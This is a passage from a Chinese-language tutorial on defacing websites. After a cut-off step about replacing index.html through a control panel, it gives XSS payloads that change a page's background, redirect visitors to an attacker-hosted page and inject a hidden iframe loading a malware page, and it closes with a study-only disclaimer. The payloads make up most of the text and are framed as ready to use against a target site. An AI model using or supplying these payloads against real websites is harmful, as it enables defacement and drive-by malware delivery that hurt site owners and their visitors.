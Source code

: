 进入控制面板后，找到 index.html  
 文件，将其替换为您自定义的页面。  
## 三、利用 XSS 漏洞篡改网站  
  
对于存在 XSS 漏洞的网站，可以通过以下脚本实现篡改：  
1. **更改背景颜色**  
：  
  
```
 http://www.targetwebsite.com/<script>document.body.bgColor="red";</script>
  

```  
1. **更改背景图片**  
：  
  
```
<script>document.body.background="http://your_image.jpg";</script>

```  
1. **重定向到自定义页面**  
：  
  
上传篡改页面到 pastehtml.com  
，然后使用以下脚本：  
```
<script>window.location="http://pastehtml.com/your_page";</script>

```  
1. **注入广告**  
：  
  
```
<iframe src="http://malwarewebpages/web.html" width=1 height=1 style="visibility:hidden;position:absolute"></iframe>

```  
## 总结  
  
通过 SQL 注入和 XSS 漏洞，我们可以实现对网站内容的篡改。在实际测试中，手动操作更能帮助您理解漏洞原理，提升技术水平。  
>   
> **声明**  
：本文仅供学习和研究使用，严禁用于非法用途！如发现漏洞，请及时联系网站管理员修复。  
  
  
  

